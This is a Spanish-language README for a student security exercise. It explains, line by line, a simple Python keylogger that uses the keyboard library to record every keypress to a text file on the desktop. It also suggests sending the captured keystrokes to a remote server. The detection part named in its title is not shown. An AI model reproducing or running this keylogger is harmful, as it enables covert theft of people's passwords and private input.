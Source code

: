 # ⌨️ Práctica 1: Creación y Detección de un Keylogger en Python, Explicación AEH
En este documento explicaré como he realizado la práctica aquí explicada: https://github.com/creyaro/SI_T5_P1

## ✅ ¿Cómo funciona el keylogger?
Explicaré mi keylogger por líneas:
  1. Importar la librería que vamos a utilizar.
     
     ```python
     import keyboard
     
     ```
  2. Haremos una función que escriba la tecla que ha pulsado el usuario rodeada por espacios para una mejor interpretación del output.
     
     ```python
     def on_key_event(event):
     f = open('C:\\Users\\PC03\\Desktop\\keylog.txt', 'a')
     if event.name == 'space':
         f.write(' ')
     f.write(str(event.name))
     if event.name == 'space':
         f.write(' ')
     
     ```
  3. Utilizar la función "on_press", para registrar la tecla que pulse el usuario.
     
     ```python
     keyboard.on_press(on_key_event)

     ```
  4. Utilizamos la función "wait" para esperar a que se pulse una tecla para finalizar el script en este caso la tecla "esc".
     
     ```python
     print("Presiona cualquier tecla. Pulsa 'Esc' para salir.")
     keyboard.wait('esc')

     ```

## 🆙 Áreas de mejora del keylogger
  ### Mejoras de lectura
  Esta mejora consiste en hacer que el texto que recogemos en el archivo de texto sea más legible, ya están implementadas algunas mejoras de legibilidad, pero igualmente se podría hacer que el texto fuese más legible y no escribiera comandos todos juntos como por ejemplo los "space" o "esc".
  
  ### Mejoras de envío de información
  La información podría ser enviada a algún equipo remotamente o a algún servidor mediante un archivo JSON.
  ### Mejoras de funcionalidad
  Podría tener más funciones como por ejemplo, hacer que registre el tiempo de pulsación de las teclas, darle un nombre concreto al evento o darle un ID.
  
## ⏺️ ¿Cómo usar el keylogger?
  El keylogger funciona de una forma muy simple, ejecutas el archivo .py y el script ya estará funcionando, este registrara todos los eventos que realicemos por teclado y los guardará en un archivo llamado keylog.txt ubicado en el escritorio.
